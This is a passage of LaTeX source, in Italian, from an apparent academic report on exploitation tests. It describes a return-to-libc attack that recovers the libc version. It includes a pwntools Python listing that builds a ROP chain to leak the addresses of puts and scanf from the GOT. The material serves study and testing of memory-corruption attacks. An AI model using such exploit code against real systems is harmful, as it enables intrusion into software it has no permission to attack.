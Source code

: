 \subsection{Return-to-libc con recupero versione}
\label{subsec:Test_3-3}
Quest'ultimo test della serie, vede un cambio di situazione generale non indifferente. In questo caso, infatti, non si era più in possesso del file della libreria condivisa. Si decise allora di adottare l'approccio illustrato nella sezione \ref{subsec:Attack_3.3}, ossia dopo aver determinato la versione
della \textbf{libc} collegata all'applicazione utilizzando alcuni database disponibili online, è stato recuperato l'indirizzo di base in memoria e le funzioni in essa contenute sono state impiegate.\\
Anche in questo caso inizialmente vennero impostate tutte \hyperref[env]{le variabili d'ambiente} (ad esclusione di quella dedicata alla libreria che venne momentaneamente omessa), mentre non fu recuperato alcun \textbf{gadget}, poiché come si vedrà, non risultarono necessari. 
L'\textbf{offset} per sovrascrivere l'indirizzo di ritorno era già stato recuperato nel primo test.
\\Per trovare la versione della \textbf{libc}, era essenziale recuperare l'offset statico di almeno due funzioni contenute in tale libreria (sarebbe realizzabile anche solo con una, ma con due si avrà una certezza maggiore sulla versione ottenuta). A tale scopo, come nel \hyperref[subsec:Test_3-1]{primo test} di questa serie,
è stata creata una prima \textbf{ROP chain} che chiamasse due \textbf{puts}() consecutive per stampare gli indirizzi effettivi di sé stessa e della funzione \textbf{scanf}(), in quanto entrambe già chiamate una prima volta durante il flusso d'esecuzione dell'applicazione.\\
Come ultimo elemento della chain, è stata aggiunta anche questa volta la chiamata a \textbf{change\_username}(), cosicché l'applicazione non terminasse dopo solamente l'esecuzione di essa:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Costruzione e invio della prima \textbf{ROP chain} per il recupero degli indirizzi effettivi di \textbf{puts}() e \textbf{scanf}.}, style =Python]
rop = ROP(elf)                                              # creazione oggetto rop
rop.raw(elf.symbols["puts"])                                # stampa '\n'
rop.call(elf.symbols["puts"],[elf.got["puts"]])             # stampa idx puts
rop.call(elf.symbols["puts"],[elf.got["__isoc99_scanf"]])   # stampa idx scnaf
rop.raw(elf.symbols["change_username"])                     # chiama change_username    

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                                    # invio ROP chain
p.recvlines(3) 

puts_lib_idx = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00")) 
scanf_lib_idx = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
\end{lstlisting}
